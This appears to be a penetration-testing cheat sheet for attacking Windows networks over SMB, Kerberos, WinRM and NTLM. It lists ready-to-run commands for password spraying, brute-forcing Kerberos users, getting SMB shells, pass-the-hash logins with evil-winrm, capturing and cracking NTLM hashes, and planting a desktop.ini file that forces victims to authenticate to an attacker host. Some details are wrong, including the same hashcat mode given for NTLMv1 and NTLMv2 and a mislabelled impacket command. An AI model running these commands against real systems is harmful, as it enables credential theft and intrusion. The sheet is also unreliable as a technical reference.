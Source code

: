 **Password spraying**
```powershell
crackmapexec smb <ip> -u <user-file> -p <pass-file> --continue-on-success
```

**Connection / shell**
```powershell
# Connect to share by credentials
smbclient //ip>/<share> [-U "<DOMAIN>\\<user>%<pass>"]
> get <file>                                # Get file
> put <local-file>                          # Upload file
> exit                                      # Exit

# Connect and execute command at once
smbclient [...] -c "<smb-command>"

# GUI connection (and standard terminal further)
xdg-open smb://<ip>/<share>

# Try to get shell via SMB
impacket-smbexec <domain>/<user>[:password]@<ip>
```

**Exploits**
- EternalBlue MS17-010

## Kerberos
```powershell
    # Kerberos can be used to enumerate info and bruteforce passwords
    kerbrute username -d <domain> --dc <dc-ip> <wordlist-file>

    # Grab Kerberos hash
    impacket-netview <domain/username> -no-pass
```

## WinRM
```powershell
    evil-winrm -i <ip> -u <username> -H <hash>  # Login by hash
    evil-winrm -i <ip> -u <username> -p <pass>  # Login by password
```

## NTLM
```powershell
responder -I <iface> -dw                    # Sniff NTLM auth attempt
hashcat -m 5600 <hash-file> <wordlist>      # Crack NTLMv1 hash
hashcat -m 5600 <hash-file> <wordlist>      # Crack NTLMv2 hash
```

**NTLM hash stealing**
- https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds

Places and tricks to steal NTLM hashes The trick is to force victim server to
auth attempt with attacker host. Places to check:
- `desktop.ini` - can contain `//<my-ip>/` OR `\\<my-ip>\` line; often available
  on SMB shares.
